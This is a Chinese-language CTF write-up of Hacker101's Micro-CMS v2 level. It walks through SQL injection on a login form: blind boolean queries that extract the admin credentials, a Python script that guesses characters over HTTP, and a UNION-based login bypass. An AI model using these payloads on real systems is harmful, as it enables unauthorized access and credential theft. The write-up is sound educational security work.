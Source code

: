 ```yaml
---
title: "hacer101 第2关&&第3关"
date: 2019-10-15T10:42:39+08:00
showDate: true
draft: false
tags: ["security","hacker101", "ctf"]
categories: ["security"]
---
```


### 第2关 Micro-CMS v2

#### flag 1 

这一关一进来就说这是一个之前CMS的升级版本，修复的之前的安全问题，现在edit需要账号密码登录了，看起来是考sql注入吧。
试了试用户名框输入`'`提交，直接报错

```python

Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")

```

从这里大概能看出一些信息比如执行的sql语句是

```sql

SELECT password FROM admins WHERE username='';
```

应该是查用户名的密码然后跟提交的比对，然后数据库是mariadb, 表名是admins

接着试

```sql

' or 1 = 1 #
```

然后提示是invalid passsword， 看起来是username被跳过但是密码因为为空所以错误了。

继续尝试

```sql

' or 1 = 1 and 1 > (select count(*) from admins) #
```

返回了unkonwn user， 说明` 1 > (select count(*) from admins) `为`false`，所以admins表里面只有不多于一条数据，接下来用length猜字段长度

```sql

' or 1 = 1 and 1 > (select count(*) from admins where length(username) = 6) #
' or 1 = 1 and 1 > (select count(*) from admins where length(password) = 6) #
```

说明username和password长度都是6

然后是猜每个位置的字母

```sql

' or 1 = 1 and 1 >  (select count(*) from admins where left(username, 1) = 'a')#
```

手动尝试的话也要几百次，于是尝试下用python写个脚本，核心代码如下，功能为检测某个位置的字母是什么

```python

def get_username_word(idx, a):
    '''

    :param idx: 位置
    :param a: 字母
    :return:
    '''
    url = "http://35.227.24.107/ff1706e3ac/login"
    username = "' or 1 = 1 and 1 >  (select count(*) from admins where left(password, {}) = '{}')#".format(idx, a)
    # username = "mollie"
    # password = "jeanne"
    password = ""

    data = {
        "username": username,
        "password": ""
    }
    r = requests.post(url, data=data)
    if not re.search('Invalid password', r.text):
        print(idx, "is", a)
        return True
    else:
        print(idx, "is not", a)
    return False
```

最后跑出结果

```

    # username = "mollie"
    # password = "jeanne"
```

登陆后拿到flag

![2-1](2-1.png)

#### flag 2

拿到第一个flag之后，找了好久，发现目前可访问的url只有

```

/home       200
/page/1     200
/page/2     200
/page/3     401
/login      200
```

里面也没什么重要的信息，然后尝试访问第一个版本存在的`/page/edit/1`，发现直接重定向到了`/login`，login之后也就只有一个flag并没有后续信息，我尝试把flag当cookie访问`/page/edit/1`,结果还是重定向。

![2-2](2-2.png)

好像卡住了，突然没有了方向。再看了一眼第1关的CMS，它好像有个`POST /page/edit/1`，于是我试了一下POST，果然第二个flag在这。

![2-3](2-3.png)


#### flag 3

找完前两个flag又卡住了，好像现在该找的地方都找了一遍。于是就这样卡了一天，没什么头绪。最后看了两个hint

```

Regular users can only see public pages
Getting admin access might require a more perfect union
```

第一个hint显然说的是`/page/3`这个403的页面，第二个我看到了union，我猜还是在登录界面用注入的方法拿到flag。因为对sql不是很熟悉，所以我仔细查看了一下union的用法，然后在自己的数据库尝试了一下

```

描述
MySQL UNION 操作符用于连接两个以上的 SELECT 语句的结果组合到一个结果集合中。多个 SELECT 语句会删除重复的数据。

语法
MySQL UNION 操作符语法格式：

SELECT expression1, expression2, ... expression_n
FROM tables
[WHERE conditions]
UNION [ALL | DISTINCT]
SELECT expression1, expression2, ... expression_n
FROM tables
[WHERE conditions];
```

```sql

SELECT username FROM user 
WHERE username=''
UNION
SELECT 1
```

结果返回为

|username|
|-----|
|1|

这下有了头绪，hint大概是想让我们跳过密码实现登录。回头看一眼他的SQL，

```sql

SELECT password FROM admins WHERE username='';
```

把password查出来然后和post过去的比对，那我只要把他改造成下面这种，查出来的结果和我提交的密码就可以了。

```sql

SELECT password FROM admins
WHERE username=''
UNION
SELECT 1
```

然后提交表单里面填`username=' union select 1#&password=1`就能免密码登录了。试了一下，果然成功了。登录之后就可以访问`/page/3`了。最后一个flag也就在这里。

![2-4](2-4.png)

### 第3关 Encrypted Pastebin


#### 加密这块不是很了解，先放着

